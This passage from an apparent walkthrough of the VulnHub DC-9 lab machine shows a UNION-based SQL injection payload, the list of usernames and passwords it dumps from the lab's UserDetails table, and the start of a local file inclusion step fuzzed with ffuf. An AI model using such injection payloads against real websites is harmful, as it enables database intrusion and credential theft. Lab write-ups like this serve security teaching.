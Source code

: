 Listing the UserDetails table, we get a set of credentials.

```
# mary' union select 1,2,username,password,5,6 from users.UserDetails;-- -
marym 3kfs86sfd
julied 468sfdfsd2
fredf 4sfd87sfd1
barneyr RocksOff
tomc TC&TheBoyz
jerrym B8m#48sd
wilmaf Pebbles
bettyr BamBam01
chandlerb UrAG0D!
joeyt Passw0rd
rachelg yN72#dsd
rossg ILoveRachel
monicag 3248dsds7s
phoebeb smellycats
scoots YR3BVxxxw87
janitor Ilovepeepee
janitor2 Hawaii-Five-0
```

There is only one entry in the Staff.Users table.

![Staff.Users](/assets/img/2024-06-17-vulnhub-dc9/admin_hash.png)

The admin’s MD5 hash did not crack. Since we are already logged in as admin to the website, we’ll come back to the credentials collected later.

## Local File Inclusion (LFI)
Notice the “File does not exist” error at the bottom of `manage.php` , which suggests that a file is being included in the request. We can fuzz for the parameter with `ffuf`.

![Fuzz file parameter](/assets/img/2024-06-17-vulnhub-dc9/fuzzparam.png)
